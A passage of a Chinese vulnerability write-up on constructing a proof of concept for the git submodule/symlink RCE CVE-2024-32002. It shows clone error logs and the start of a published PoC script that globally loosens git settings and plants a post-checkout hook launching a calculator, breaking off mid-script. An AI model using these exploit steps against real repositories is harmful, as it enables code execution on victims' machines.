 构造POC
-----

经过上面的详细分析，如何构造poc也就一目了然了。当我尝试构造poc后，会出现报错：

```php
$ git clone --recursive git@github.com:10cks/CVE-2024-32002-submod.git test
Cloning into 'test'...
remote: Enumerating objects: 8, done.
remote: Counting objects: 100% (8/8), done.
remote: Compressing objects: 100% (4/4), done.
remote: Total 8 (delta 1), reused 8 (delta 1), pack-reused 0
Receiving objects: 100% (8/8), done.
Resolving deltas: 100% (1/1), done.
warning: the following paths have collided (e.g. case-sensitive paths
on a case-insensitive filesystem) and only one from the same
colliding group is in the working tree:

  'a'
Submodule 'x/y' (git@github.com:10cks/CVE-2024-32002-hulk.git) registered for path 'A/modules/x'
fatal: could not create leading directories of 'D:/CVE-2024-32002/RCE/test/A/modules/x': Not a directory
fatal: clone of 'git@github.com:10cks/CVE-2024-32002-hulk.git' into submodule path 'D:/CVE-2024-32002/RCE/test/A/modules/x' failed
Failed to clone 'A/modules/x'. Retry scheduled
fatal: could not create leading directories of 'D:/CVE-2024-32002/RCE/test/A/modules/x': Not a directory
fatal: clone of 'git@github.com:10cks/CVE-2024-32002-hulk.git' into submodule path 'D:/CVE-2024-32002/RCE/test/A/modules/x' failed
Failed to clone 'A/modules/x' a second time, aborting
```

**通过邮件咨询，我才知道即使在windows上开启了符号链接选项，仍需以管理员权限运行才能够正确的执行符号链接。这也是为什么我花了两天时间一直没有在windows上成功实现任意代码执行的原因。**

除此之外，不能通过手动修改`.gitmodules`的方式来对子模块进行设置，会导致远程仓库无法正确进行递归。我们需要在生成`.gitmodules`前就对其进行修改，并且协议需要保持一致：

```php
git submodule add --name x/y "远程子模块仓库" A/modules/x
```

最后完整的poc在5月20号被Amal Murali放出，到这里关于git RCE的分析也就告一段段落了：

```php
#!/bin/bash

# 设置 Git 配置选项
git config --global protocol.file.allow always
git config --global core.symlinks true
# 避免警告消息（设置默认分叉为main）
git config --global init.defaultBranch main 

# 定义 tell-tale 路径
tell_tale_path="$PWD/tell.tale"

# 初始化 hook 仓库
git init hook
cd hook
mkdir -p y/hooks

# 将恶意代码写入 hook，适配windows环境与mac环境
cat > y/hooks/post-checkout <<EOF
#!/bin/bash
calc.exe
open -a Calculator.app
EOF

# 使 hook 可执行：重要
```